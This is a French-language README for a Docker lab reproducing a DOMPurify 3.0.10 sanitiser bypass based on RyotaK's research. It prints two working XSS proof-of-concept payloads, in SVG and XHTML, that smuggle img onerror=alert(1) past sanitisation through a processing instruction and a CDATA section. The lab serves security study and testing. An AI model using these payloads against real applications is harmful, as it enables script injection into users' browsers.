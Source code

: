 # Dompurify 3.0.10 bypass - Confusion nodeName and CDATA

## Lien vers l'article complet

> Un article reprenant le travail de RyotaK concernant le bypass de Dompurify dans sa version 3.0.10.

[https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.10-bypass-confusion-nodename-and-cdata](https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.10-bypass-confusion-nodename-and-cdata)

## Installation

```
docker build -t dompurify-3.0.10-bypass .
docker run -p 3000:3000 --name dompurify-3.0.10-bypass dompurify-3.0.10-bypass
```

![image](https://github.com/Sharpforce/cybersecurity-code/assets/6013418/75be9d65-91ce-4fc4-b561-9c6be3699627)

## Description

L'application permet de téléverser des fichiers au format HTML, SVG ou XHTML, mais la consultation de ces fichiers, bien que possible, est restreinte par une politique CSP. L'inclusion d'un tel fichier, assainie par Dompurify, au sein de la page principale, permet toutefois l'exploitation du bypass et l'exécution de code Javascript.

## Exploitation

### Fichier HTML

La vulnérabilité est exploitable seulement lorsque le noeud est de type XML. L'inclusion d'un fichier HTML permet de confirmer le bon assainissement de la part de Dompurify lorsque le noeud est de type HTML.

### Fichier SVG 

Le fichier SVG suivant permet l'exploitation du bypass :
```SVG
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?img > <img src=x onerror="alert(1)"> ?>
</svg>
```
### Fichier XHTML

Le fichier XHTML suivant permet l'exploitation du bypass :
```HTML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Exemple de document XHTML</title>
</head>
<body>
    <h1>Document XHTML</h1>
    <p>Exploitation de Dompurify 3.0.10.</p>
    <![CDATA[ ><img src onerror=alert(1) ]]>
</body>
</html>
```

## Démo

![](https://github.com/Sharpforce/cybersecurity-code/blob/master/dompurify-3.0.10-bypass-confusion-nodename-and-cdata/demo/demo.gif)

## Disclaimer

Cet outil est destiné uniquement à des fins éducatives et doit être utilisé uniquement dans des environnements de tests de pénétration autorisés. L'accès ou l'utilisation non autorisés de systèmes que vous ne possédez pas est illégal. L'auteur n'est pas responsable de toute utilisation abusive de cet outil.

## License

Ce projet est sous licence MIT.